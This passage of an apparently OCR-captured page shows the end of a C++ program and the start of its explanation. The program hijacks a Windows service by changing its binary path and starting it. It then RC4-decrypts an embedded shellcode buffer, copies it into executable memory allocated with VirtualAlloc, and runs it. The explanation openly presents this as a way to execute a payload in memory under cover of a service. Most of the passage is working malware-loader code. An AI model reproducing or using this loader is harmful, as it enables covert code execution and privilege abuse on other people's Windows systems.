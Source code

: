 ```cpp
        std::cerr << "Failed to change service binary path. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return 1;
    }

    // Start the service
    if (!StartServiceA(service, 0, NULL)) {
        std::cerr << "Failed to start service. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return 1;
    }

    std::cout << "Service started successfully." << std::endl;

    // Decrypt the shellcode
    RC4(buf, BUF_SIZE, key, sizeof(key));

    // Allocate memory for the shellcode
    void* exec_mem = VirtualAlloc(0, BUF_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "VirtualAlloc failed. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return -1;
    }

    // Copy the decrypted shellcode to the allocated memory
    memcpy(exec_mem, buf, BUF_SIZE);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    // Close handles
    CloseServiceHandle(service);
    CloseServiceHandle(scManager);

    return 0;
}
```

### **Explanation:**

1. **ChangeServiceConfigA**: The service's binary path is modified to point to a harmless executable, like `cmd.exe`. This is just a placeholder to start the service without crashing it. The actual payload (shellcode) will be executed in memory after the service starts.
